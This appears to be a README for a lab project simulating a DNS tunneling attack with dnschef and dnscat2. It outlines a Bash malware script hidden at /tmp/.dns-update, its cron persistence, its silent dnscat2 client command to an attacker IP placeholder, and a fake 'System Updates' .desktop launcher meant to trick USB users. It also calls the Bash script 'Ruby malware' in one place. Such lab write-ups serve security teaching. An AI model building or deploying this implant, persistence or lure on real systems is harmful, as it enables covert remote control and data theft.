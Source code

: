 # DNS Tunneling Attack Simulation

This project simulates a DNS Tunneling attack using:

- **dnscat2** for command-and-control over DNS
- **dnschef** for simulating a fake DNS server
- A **malware script** as payload
- **autorun.desktop** to simulate real-world autorun behavior

## Structure

- `/setup`:
 ### A virtual lab was created using VMware with two machines:
  #### Attacker (Kali Linux 2023.1):
  -Hosts dnscat2 (C2 server) and dnschef (fake DNS server).
  #### Victim (Ubuntu 20.04):
  -Simulates a compromised system communicating via DNS tunneling.
  
- `/dnschef`: Configuration for fake DNS domain
### The attacker machine (Kali Linux) uses dnschef, a rogue DNS proxy, to intercept DNS queries from the victim.
  -Purpose: Redirect DNS queries for a fake domain to the attacker's IP, enabling covert C2 communication.

  ```bash
    sudo apt install dnschef -y
```
  
   ![image](https://github.com/user-attachments/assets/0b114df3-97b7-4f8c-bc33-74e2ead71348)
   
   ![image](https://github.com/user-attachments/assets/ad52b1bb-ce61-487c-9985-94572dbec7a6)
  
  -Listener Port: 53 (standard DNS)

  -Behavior: Replies to DNS queries with the attacker's IP instead of resolving them, enabling the victim to unknowingly connect to the dnscat2 server.
     
- `/dnscat2`: 🧠 dnscat2 C2 Server Setup
  To complete the DNS tunneling setup, the attacker's environment includes running both the **dnscat2 C2 server** and the **dnschef fake DNS server** in parallel.
 ### ⚙️ dnscat2 Installation & Setup
 -Installs Ruby
 
   ![image](https://github.com/user-attachments/assets/412d31fa-7da7-4a84-b466-45ad59f421d7)
    
 -Clones the dnscat2 repository from GitHub to your local machine.
    
   ![image](https://github.com/user-attachments/assets/45db2ad5-10ac-4d9e-92b7-5f52021338b4)
    
 -Change directory to the dnscat2 server folder and Installs Ruby's dependency manager Bundler
    
   ![image](https://github.com/user-attachments/assets/68e13608-4294-4269-ad63-0db40c084a6d)
    
 -installs any required Ruby gems defined in the Gemfile
    
   ![image](https://github.com/user-attachments/assets/3434ca66-218e-414c-b7f3-24b3a0abca4e)
    
 -Launches the dnscat2 server, enabling it to listen for DNS queries and manage inbound communication.
  
   ![image](https://github.com/user-attachments/assets/b6bb6cac-e639-4358-b740-28270d4a04f6)
    
   (‼️ Important: Both the dnscat2 server and dnschef must run simultaneously)
   
- `/malware`: 🐛 Malware Creation and Deployment
A custom Bash script (`malware.sh`) was developed to simulate real-world malware behavior using DNS tunneling for covert Command and Control (C2) communication.
  
   ![image](https://github.com/user-attachments/assets/bb7d4a97-c78d-40bf-bebf-fd17233af4a3)

 ### 🔒 Stealthy Deployment
  -Copies the `dnscat2` client to a hidden path: `/tmp/.dns-update`
  -Sets execution permissions for silent execution
 ### 🌐 C2 Initialization
  -Establishes a DNS-based C2 channel to the attacker's server over **UDP port 53**
  -Launches the client using:
  ./dnscat --dns server=<KALI_IP>,port=53 --secret=mysecret >/dev/null 2>&1
 ### ♻️ Persistence
   -Adds a cron job with @reboot to ensure the malware runs on every system startup
 ### 💾 Infection Method:
   -Delivered via USB drive
   
- `/Autorun`:💾 USB-Based Delivery via `.desktop` File
  A fake `.desktop` file is used to trick users into executing a malicious script (`malware.sh`) from a USB drive. This method simulates social engineering by mimicking a legitimate system update.
### 🧿 File Example: `System Autorun.desktop`

   ![image](https://github.com/user-attachments/assets/d376af3e-9704-4379-ae58-f985797e7dbc)

-Name=System Updates: Displays a trusted label to trick the user.

-Exec=/bin/bash /media/$USER/USB/malware.sh :Executes the hidden script from the USB.

-Icon=system-software-update: Uses a familiar system icon to avoid suspicion.

-Type=Application: Treated as an executable app.

-Terminal=false: Runs silently without opening a terminal window.
    
- `/tunnel execution`: 🎯 Execution and Session Establishment
  
  -When the victim clicks the malicious .desktop file, malware.sh is executed.
  -This triggers a DNS tunnel connection to the attacker's dnscat2 C2 server.
  -A stealthy session is created, giving the attacker remote shell access.
  
   ![image](https://github.com/user-attachments/assets/ddb593fb-d9d8-4806-aea1-7439cdf3c076)

-`/result_screen shoots`:🛠 Post-Execution Actions
### Attacker can now:
  -Run remote commands
  -Monitor user activity
  -Extract sensitive data
  
   ![image](https://github.com/user-attachments/assets/92ff7011-2ee0-4a54-ae2f-08feefc32e81)

   ![image](https://github.com/user-attachments/assets/0dc1c90a-b731-422f-9393-9239207e2e55)

   ![image](https://github.com/user-attachments/assets/f7583d55-734f-4987-b58c-1a2794e56f8b)

   ![image](https://github.com/user-attachments/assets/4a8df170-2232-41c5-ac18-2efb355f1991)

   ![image](https://github.com/user-attachments/assets/4bfa987e-5d3a-480e-824e-80595ca2ea00)

   ![image](https://github.com/user-attachments/assets/a8bac9d6-28bb-403a-be7f-ba206d0ed789)
   
   ![image](https://github.com/user-attachments/assets/be0fc7a7-7857-43f1-a04e-0635634b9e0a)
   
  ![image](https://github.com/user-attachments/assets/a3baf20d-ce75-4fd7-a715-cd4706eccf8d)

  ![image](https://github.com/user-attachments/assets/ea02f761-961a-408e-bf22-596916e91812)


## How to Run (For Educational Use Only)

> ⚠️ Warning: This is for **educational and testing purposes** only. Do not use in unauthorized environments.

1. Start `dnschef` with a fake domain.
2. Launch `dnscat2-server`.
3. Place the `autorun.desktop` on the target and simulate execution.
4. The Ruby malware connects back to the `dnscat2` server.
5. You can exfiltrate data or run commands from the server.

## Legal Notice

This project is strictly for **educational purposes** and **authorized testing labs**. Do not deploy in live or unauthorized environments.
